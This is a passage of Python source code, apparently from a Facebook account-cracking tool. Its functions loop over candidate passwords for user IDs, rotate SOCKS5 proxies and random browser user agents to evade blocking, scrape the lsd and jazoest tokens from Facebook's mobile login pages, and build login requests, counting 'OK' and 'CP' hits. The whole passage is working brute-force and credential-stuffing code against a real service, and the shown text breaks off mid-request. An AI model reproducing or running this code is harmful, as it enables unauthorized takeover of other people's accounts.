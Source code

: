 				pool.submit(crackfree,idf,pwv)
	print('')
#	print(' \033[1;34m OK = %s '%(ok))
	print('')
#	print(' \033[1;37m CP = %s '%(cp))
	print('\033[1;34mBO DUBARA CRACK KRDN [CTRL + P] DAGRA')
	exit()

# Mobile

def crackmobile_MRBX(idf,pwv,nmf):
    global loop,ok,cp
    bo = random.choice([m,k,h,b,u,x])
    sys.stdout.write(f"\r{b}[1]{P}[{k}{loop}{P}/{h}{len(id)}{P}]-{P}[{H}OK - {ok}{P}]-{P}[{k}CP - {cp}{x}]-[{bo}{'{:.0%}'.format(loop/float(len(id)))}{P}]  "),
    sys.stdout.flush()
    ua = random.choice(ugen2)
    ua2 = random.choice(ugen2)
    ses = requests.Session()
    for pw in pwv:
        try:
            nip=random.choice(prox)
            proxs= {'http': 'socks5://'+nip}
            ses.headers.update = {'Host':'p.facebook.com',
	'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
    'accept-language': 'ar-EG,ar;q=0.9,en-US;q=0.8,en;q=0.7',
    'cache-control': 'max-age=0',
    # 'cookie': 'datr=zKAaZWMjinn44LAbBPSRMHpV; sb=zKAaZXv0JuI8lR9YdKw9XuZO; vpd=v1%3B720x393x2.75; locale=id_ID; wl_cbv=v2%3Bclient_version%3A2339%3Btimestamp%3A1698250473; m_pixel_ratio=3.0234789848327637; dpr=3.0234789848327637; wd=358x655; fr=0awPXuJnjY401RfFJ.AWXKyfXsHJkYeBAGRBu9KFMVcu8.BlGqDM.oe.AAA.0.0.BlPSN5.AWXab58W9E0',
    'dpr': '2.75',
    'sec-ch-prefers-color-scheme': 'light',
    'sec-ch-ua': '"Not)A;Brand";v="24", "Chromium";v="116"',
    'sec-ch-ua-full-version-list': '"Not)A;Brand";v="24.0.0.0", "Chromium";v="116.0.5845.240"',
    'sec-ch-ua-mobile': '?0',
    'sec-ch-ua-model': '""',
    'sec-ch-ua-platform': '"Linux"',
    'sec-ch-ua-platform-version': '""',
    'sec-fetch-dest': 'document',
    'sec-fetch-mode': 'navigate',
    'sec-fetch-site': 'none',
    'sec-fetch-user': '?1',
    'referer': 'https://p.facebook.com/login/?next&ref=dbl&fl&login_from_aymh=1&refid=8',
    'upgrade-insecure-requests': '1',
    'user-agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/116.0.0.0 Safari/537.36',
}
            p = ses.get('https://p.facebook.com/login/device-based/password/?uid='+idf+'&flow=login_no_pin&wtsid=rdr_0h6isQJSJIoku7Q5N&refsrc=deprecated&_rdr').text
            dataa ={"lsd":re.search('name="lsd" value="(.*?)"', str(p)).group(1),"jazoest":re.search('name="jazoest" value="(.*?)"', str(p)).group(1),"uid":idf,"flow":"login_no_pin","pass":pw,"next":"https://p.facebook.com/login/save-device/'"}
            ses.headers.update = {'Host': 'm.facebook.com',
